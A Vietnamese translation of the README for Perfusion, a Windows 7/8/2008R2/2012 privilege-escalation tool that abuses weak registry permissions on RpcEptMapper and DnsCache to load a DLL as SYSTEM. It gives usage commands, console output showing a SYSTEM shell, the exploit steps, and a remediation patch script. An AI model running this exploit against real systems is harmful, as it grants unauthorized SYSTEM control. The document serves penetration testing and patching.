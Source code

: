 ```yaml
---
title: Perfusion
date: 12/11/2021
layout: single
header:
  teaser: https://anomali.cdn.rackfoundry.net/images/made/images/uploads/blog/ogThe-Power-of-an-Exploit_1200_603.jpg
---
```


# Perfusion
Tác giả: itm4n

Mã Nguồn: [itm4n/Perfusion](https://github.com/itm4n/Perfusion) 

Trong __Windows 7__, __Windows Server 2008R2__, __Windows 8__, và __Windows Server 2012__, khóa đăng ký của dịch vụ `RpcEptMapper` và` DnsCache` (chỉ dành cho 7 / 2008R2) được định cấu hình với quyền yếu. Bất kỳ người dùng cục bộ nào cũng có thể tạo khóa con `Performance` và sau đó tận dụng ___Windows Performance Counters___ để tải một DLL tùy ý trong ngữ cảnh của dịch vụ WMI là` NT AUTHORITY \ SYSTEM` (do đó có tên là công cụ).

Công cụ này nhằm giúp các nhà tư vấn bảo mật trong quá trình kiểm tra thâm nhập. Phần mềm này được cung cấp nguyên trạng và tác giả có thể sẽ không cung cấp bất kỳ hỗ trợ nào. Mặc dù vậy, tôi đã thử nghiệm nó kỹ lưỡng trên ba máy ảo khác nhau nên không có vấn đề gì đáng kể.

Một bài phân tích chi tiết về nó: [https://itm4n.github.io/windows-registry-rpceptmapper-eop/](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)

<p align="center">
  <img src="demo.gif">
</p>

## Nguồn thông tin: 2021-04-21 Cập nhật

Theo [0patch](https://twitter.com/0patch/status/1384495698373120002), lỗ hổng này đã được sửa một phần với Bản cập nhật Windows tháng 4 năm 2021 (ESU). Điều này có nghĩa là các máy chạy phiên bản cập nhật của Windows 8 / Server 2012 sẽ không thể khai thác được nữa. Tuy nhiên, Windows 7 / Server 2008 R2 vẫn dễ bị tấn công. Bạn chỉ cần sử dụng khóa đăng ký `Dnscache` hơn là `RpcEptMapper`. Tôi đã cập nhật PoC để bạn có thể chỉ định thủ công bằng tùy chọn `-k`.

```powershell
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_2900_368_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[+] Exploit completed. Got a SYSTEM token! :)
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

C:\Temp>whoami
nt authority\system

C:\Temp>
```

:x: Đây là những gì bạn sẽ thấy khi khai thác không thành công

```powershell
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_636_3000_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[-] Exploit completed but no SYSTEM Token. :/
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.

C:\Temp>
```

## Build instructions

Giải pháp này bao gồm hai dự án cần được biên dịch theo một thứ tự cụ thể. Mọi thứ đều được định cấu hình trước, vì vậy bạn chỉ cần làm theo các hướng dẫn đơn giản sau

1. Mở Giải pháp với Visual Studio 2019
2. Select `Release / x64`
3. `Build > Build Solution`

## Usage

Bạn có thể kiểm tra thông báo trợ giúp bằng cách sử dụng tùy chọn `-h`.

```powershell
C:\TOOLS>Perfusion.exe -h
 _____         ___         _
|  _  |___ ___|  _|_ _ ___|_|___ ___
|   __| -_|  _|  _| | |_ -| | . |   |  version 0.2
|__|  |___|_| |_| |___|___|_|___|_|_|  by @itm4n

Description:
  Exploit tool for the RpcEptMapper registry key vulnerability.

Options:
  -c <CMD>  Command - Execute the specified command line
  -i        Interactive - Interact with the process (default: non-interactive)
  -d        Desktop - Spawn a new process on your desktop (default: hidden)
  -k <KEY>  Key - Either 'RpcEptMapper' or 'Dnscache' (default: 'RpcEptMapper')
  -h        Help - That's me :)
```

## Remediation / Patch

Các phiên bản Windows sau dễ bị tấn công:

| Windows version | Vulnerable registry keys |
| --- | --- |
| Windows 7 | RpcEptMapper, DnsCache |
| Windows Server 2008R2 | RpcEptMapper, DnsCache |
| Windows 8 | RpcEptMapper |
| Windows Server 2012 | RpcEptMapper |

Theo những gì tôi được biết, lỗ hổng này sẽ không được Microsoft sửa chữa vì một số lý do. Giải pháp tốt nhất vẫn là nâng cấp lên Windows 10 / Server 2019 nhưng nếu đó không phải là lựa chọn ngắn hạn, bạn vẫn có thể tự vá sự cố này bằng cách xóa quyền `CreateSubKey` cho cả `NT AUTHORITY\Authenticated Users` và `BUILTIN\Users` trên các khóa đăng ký sau:

- `HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper`
- `HKLM\SYSTEM\CurrentControlSet\Services\DnsCache`

Tác giả đã tạo bản vá cho lỗ hổng bảo mật này dưới dạng tập lệnh PowerShell: [RegistryPatch.ps1] (RegistryPatch.ps1). Tập lệnh này loại bỏ `CreateSubKey` ngay trên hai khóa đăng ký nêu trên cho các danh tính sau:` NT AUTHORITY \ INTERACTIVE`, `BUILTIN \ Users` và / hoặc` BUILTIN \ Authenticated Users`

- __Kiểm tra xem máy có dễ bị tổn thương không:__ (Windows Server 2012 here)

```powershell
PS C:\Temp> . .\RegistryPatch.ps1; Invoke-RegistryPatch -Verbose
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\Authenticated Users" has "QueryValues, CreateSubKey, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "QueryValues, CreateSubKey, Notify" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
True
```

- __Áp dụng các bản vá:__ (Windows Server 2008 R2 here)

```powershell
PS C:\Temp> . .\RegistryPatch.ps1; Invoke-RegistryPatch -Patch -Verbose 
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\Authenticated Users" has "QueryValues, CreateSubKey, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "QueryValues, CreateSubKey, Notify" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: The new ACL was applied
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\INTERACTIVE" has "QueryValues, CreateSubKey, EnumerateSubKeys, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "CreateSubKey, ReadKey" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: The new ACL was applied
True
```

## How does this exploit work?

Dưới đây là các bước khai thác được thực hiện trong công cụ này:

1. Tiến trình được tạo ở chế độ nền ở trạng thái treo (sử dụng dòng lệnh được chỉ định).
2. DLL trọng tải nhúng được ghi vào thư mục `Temp` của người dùng hiện tại.
3. Khóa `Performance` được tạo trong` HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper` và được điền các giá trị thích hợp, bao gồm cả đường dẫn đầy đủ của DLL đã được tạo ở bước 2.
4. Lớp WMI `Win32_Perf` được tạo và gọi để kích hoạt bộ sưu tập _Windows Performance Counters_.
5. DLL được tải bởi dịch vụ WMI dưới dạng `NT AUTHORITY\SYSTEM` hoặc` NT AUTHORITY\LOCAL SERVICE`.
6. Nếu DLL được tải bởi `NT AUTHORITY\SYSTEM`, Mã thông báo của nó sẽ được sao chép và được áp dụng cho Quy trình do người dùng tạo ban đầu ở bước 1.
7. Mọi thứ được dọn dẹp và Chủ đề chính của Quy trình bị treo được tiếp tục.
